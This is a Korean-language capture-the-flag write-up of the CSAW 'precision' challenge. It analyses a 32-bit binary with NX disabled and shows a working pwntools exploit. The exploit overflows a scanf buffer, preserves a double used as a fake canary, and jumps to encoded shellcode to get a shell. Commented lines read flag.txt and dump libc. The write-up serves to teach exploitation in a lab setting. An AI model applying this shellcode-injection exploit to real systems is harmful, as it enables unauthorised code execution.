

============================================================================================================
[csaw] precision
============================================================================================================

Prior information
============================================================================================================

프로그램은 스택 카나리와 nx는 안걸려 있고, 문제에서 버퍼 위치를 찍어 줍니다. 

.. code-block:: console

    $ file ./precision   
    ./precision: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), 
    dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]
    =929fc6f283d6f6c3c039ee19bc846e927103ebcd, not stripped

    $ ./checksec.sh --file precision
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
    Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   precision

    $ ./precision
    Buff: 0xff9f7718
    joizel
    Got joizel

|

Source Analysis
============================================================================================================

먼저 IDA Hexray를 이용하여 해당 프로그램의 소스를 확인해보면 다음과 같습니다.

.. code-block:: c

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
        int v4; // [sp+18h] [bp-88h]@1
        double v5; // [sp+98h] [bp-8h]@1

        v5 = 64.33333;
        setvbuf(stdout, 0, 2, 0);
        printf("Buff: %p\n", &v4);
        __isoc99_scanf("%s", &v4);  // overflow
        if ( 64.33333 != v5 )
        {
            puts("Nope");
            exit(1);
        }
        return printf(str, &v4);
    }

|

Segmentation fault
============================================================================================================

__isoc99_scanf에서 128바이트 이상 값이 입력될 경우 버퍼 오버플로우가 발생되는 것을 확인할 수 있습니다.

.. code-block:: console

    $ python -c 'print "A"*127' | ./precision
    Buff: 0xff96b918
    Got AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAA

    $ python -c 'print "A"*128' | ./precision
    Buff: 0xfff6c378
    Nope

중간에 v5값만 맞춰서 넣어 주면 리턴 주소값을 변경할 수 있습니다.

v5값은 IDA Hexray에서 dbl(floating point data) 형식으로 64.33333이 정의 되어 있는데 해당 값을 dword 형식으로 변환하면 해당 값이 0x475a31a5 40501555 인것을 확인할 수 있습니다. 

|

exploit
============================================================================================================

공격 코드는 다음과 같습니다.

.. code-block:: python

    from pwn import *

    #r = remote("54.173.98.115", 1259)
    r = process("./precision")
    recv = r.recvline()

    buf_addr = int(recv.split(" ")[1][2:], 16)
    print "%d [%s]" % (buf_addr, hex(buf_addr))

    # len(shellcode) = 74
    shellcode = "\xeb\x25\x5e\x31\xc9\xb1\x1e\x80\x3e\x07\x7c\x05\x80
    \x2e\x07\xeb\x11\x31\xdb\x31\xd2\xb3\x07\xb2\xff\x66\x42\x2a\x1e
    \x66\x29\xda\x88\x16\x46\xe2\xe2\xeb\x05\xe8\xd6\xff\xff\xff\x38
    \xc7\x57\x6f\x69\x68\x7a\x6f\x6f\x69\x70\x75\x36\x6f\x36\x36\x36
    \x36\x90\xea\x57\x90\xe9\x5a\x90\xe8\xb7\x12\xd4\x87" 

    # 128(dummy + shellcode) + v5 + 12(dummy) + ret(buf_addr)
    # 
    r.sendline("A"*(128 - len(shellcode)) + shellcode + p32(0x475a31a5) 
    + p32(0x40501555) + "EEEECCCCDDDD" + p32(buf_addr))
    #r.recv()
    r.interactive() 

    #r.sendline("cat flag.txt")
    print r.recv()

    #r.sendline("cat /lib32/libc.so.6")

    #x = ""
    #while r.can_recv(5):
        #x += r.recv()

    #with open("libc", "wb") as f:
        #f.write(x)

해당 공격 코드 실행 결과는 아래와 같다.

.. code-block:: console

    $ python exploit.py 

    [+] Started program './precision'
    4294231000 [0xfff4c3d8]
    [*] Switching to interactive mode
    $ 
    